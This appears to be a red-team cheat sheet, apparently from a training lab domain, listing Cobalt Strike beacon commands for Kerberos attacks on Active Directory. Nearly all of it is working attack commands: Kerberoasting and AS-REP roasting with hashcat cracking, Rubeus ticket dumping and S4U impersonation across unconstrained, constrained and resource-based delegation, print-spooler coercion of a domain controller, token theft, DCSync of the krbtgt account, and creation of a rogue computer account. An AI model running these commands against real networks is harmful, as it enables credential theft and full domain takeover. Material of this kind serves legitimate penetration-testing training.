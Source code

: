 # Kerberos

## 1) Kerberoasting

    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:mssql_svc /nowrap

    ps> hashcat -a 0 -m 13100 hashes wordlist

## 2) ASREPRoast

    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:squid_svc /nowrap

    ps> hashcat -a 0 -m 18200 svc_oracle wordlist

## 3) Unconstrained Delegation (Caches TGT of any user accessing its service)

1. Identify the computer objects having Unconstrained Delegation enabled

        beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname

2. Dumping the cached TGT ticket (requires system access on affected system)

        beacon> getuid
        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

3. Execute PrintSpool attack to force DC to authenticate with WEB 

        beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io

4. Use Machine TGT (DC) fetched to gain RCE on itself using S4U abuse (/self flag)

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap

5. Inject the ticket and access the service

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=

        beacon> steal_token 2664
        beacon> ls \\dc-2.dev.cyberbotic.io\c$

## 4) Constrained Delegation (allows to request TGS for any user using its TGT)

1. Identify the computer objects having Constrained Delegation is enabled

        beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json

2. Dump the TGT of User/Computer Account having constrained Delegation enabled (use asktgt if NTLM hash)

        beacon> getuid
        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

3. Use S4U technique to request TGS for delegated service using machines TGT (Use S4U2Proxy tkt)

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /user:sql-2$ /ticket:doIFLD[...snip...]MuSU8= /nowrap

4. OR, Access other alternate Service not stated in Delegation attribute (ldap)

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /altservice:ldap /user:sql-2$ /ticket:doIFpD[...]MuSU8= /nowrap

5. Inject the S4U2Proxy tkt from previous step

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv

6. Access the services 

        beacon> steal_token 5540
        beacon> ls \\dc-2.dev.cyberbotic.io\c$
        beacon> dcsync dev.cyberbotic.io DEV\krbtgt

## 5) Resource-Based Constrained Delegation (Systems having writable msDS-AllowedToActOnBehalfOfOtherIdentity)

1. Identify the Computer Objects which has AllowedToActOnBehalfOfOtherIdentity attribute defined

        beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes dnshostname,samaccountname,msDS-AllowedToActOnBehalfOfOtherIdentity --json

2. OR, Identify the Domain Computer where we can write this atribute with custom value 

        beacon> powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

        beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107

3. Next we will assign delegation rights to our computer by modifying the attribute of target system

        beacon> powerpick Get-DomainComputer -Identity wkstn-2 -Properties objectSid
        beacon> powerpick $rsd = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-569305411-121244042-2357301523-1109)"; $rsdb = New-Object byte[] ($rsd.BinaryLength); $rsd.GetBinaryForm($rsdb, 0); Get-DomainComputer -Identity "dc-2" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $rsdb} -Verbose

4. Verify the updated attribute

        beacon> powerpick Get-DomainComputer -Identity "dc-2" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

5. Get the TGT of our computer

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

6. Use S4U technique to get TGS for target computer using our TGT

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:WKSTN-2$ /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /ticket:doIFuD[...]5JTw== /nowrap

7. Access the services

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGcD[...]MuaW8=

        beacon> steal_token 4092
       beacon> ls \\dc-2.dev.cyberbotic.io\c$

8 Remove the delegation rights

    beacon> powerpick Get-DomainComputer -Identity dc-2 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity

OR, Create Fake computer Account for RBCD Attack

9. Check if we have permission to create computer account (default allowed)

        beacon> powerpick Get-DomainObject -Identity "DC=dev,DC=cyberbotic,DC=io" -Properties ms-DS-MachineAccountQuota

10. Create a fake computer with random password (generate hash using Rubeus)

        beacon> execute-assembly C:\Tools\StandIn\StandIn\StandIn\bin\Release\StandIn.exe --computer EvilComputer --make
        PS> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:<password> /user:EvilComputer$ /domain:dev.cyberbotic.io

11. Use the Hash to get TGT for our fake computer, and rest of the steps remains same

        beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:<aes256> /nowrap

